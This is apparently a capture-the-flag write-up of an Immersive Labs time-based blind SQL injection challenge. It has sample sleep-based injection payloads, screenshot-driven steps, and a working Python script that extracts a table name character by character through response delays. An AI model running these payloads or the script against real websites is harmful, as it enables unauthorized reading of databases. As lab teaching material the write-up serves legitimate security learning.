 ```yaml
---
date: 2025-02-08
categories: [CTF, ImmersiveLabs]
title: "IML - SQL Injection – Time-Based Blind"
tags: ['http', 'sql', 'sqli', 'rce']

description: "SQL Injection – Time-Based Bl - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection – Time-Based Blind

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi)

**<u>To test for time-based sqli:</u>**
Example:
```bash
http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'
```
or use:
**' OR SLEEP(5) AND '1'='1**
or
**'AND (SELECT \* FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe**

If the websites hangs for a bit, it means it is vulnerable to this kind of attack


![image1](../resources/0ea334980e34492093c4a7564082592d.png)


![image2](../resources/048d06d477a3420e9537d1315fe5ded8.png)

- Edit script (below) with parameters


![image3](../resources/d5f84473a07445e39af788ad44b0c701.png)

DB_name (script below)


![image4](../resources/42d7108f995746d1973bb6b4cc360e77.png)

Table_name (script below)


![image5](../resources/a18612f005af4f699d29aec9ac07fad9.png)

Column_name(script below)


![image6](../resources/208b3c33cdbb47f586ad222089318e9f.png)

Find flag


![image7](../resources/f15c06b5f66e4b90a9d2128af08c19d0.png)

**Ignore capitals and weird characters**


![image8](../resources/4b57281e766f4f77a4225d5d83867ffb.png)

Make sure to put the queries in their own ( )

**<u>Time-Based Bruteforce Database name script</u>**


![image9](../resources/ded6c258929345789f2ffe7614ec744c.png)

**<u>Time-Based Bruteforce Table name script</u>**


![image10](../resources/72335977ed8b4427a695b6c17c6ab8f2.png)

**<u>Time-Based Bruteforce Column name script</u>**


![image11](../resources/db532af227954c6d8796124e71b2ed5e.png)

**<u>Find flag</u>**


![image12](../resources/b408bf05364d4936a6d8c932e17e473e.png)

**<u>Script:</u>**

```python
import requests
import sys
import time

# Send the payload to the vulnerable parameter on the target host
# If it takes 5 seconds or longer to get a reply, return True
def send_payload(ip, payload):
    start = time.time()
    r = requests.get(
        "http://%s/newsletter.php?name=test&email=test' OR IF (%s, sleep(5), 'NO') AND '1'='1'" % (ip, payload)
    )
    end = time.time()
    return (end - start) >= 5

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "LENGTH((select table_name from information_schema.tables where table_schema=database()))='%d'" % i):
            length = i
            break

    print("Length: %d" % length)
    sys.stdout.write("Dumping: ")
    sys.stdout.flush()

    db_name = ""
    for i in range(1, length + 1):
        for j in range(96, 123):  # ASCII a-z
            if send_payload(ip, "SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s'" % (i, chr(j))):
                db_name += chr(j)
                sys.stdout.write(chr(j))
                sys.stdout.flush()
                break
    sys.stdout.write("\n")
    sys.stdout.flush()
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % sys.argv[0])
        sys.exit(1)

    ip = sys.argv[1]
    db_name = brute_db(ip)
    print("DB name: %s" % db_name)

if __name__ == "__main__":
    main()


```
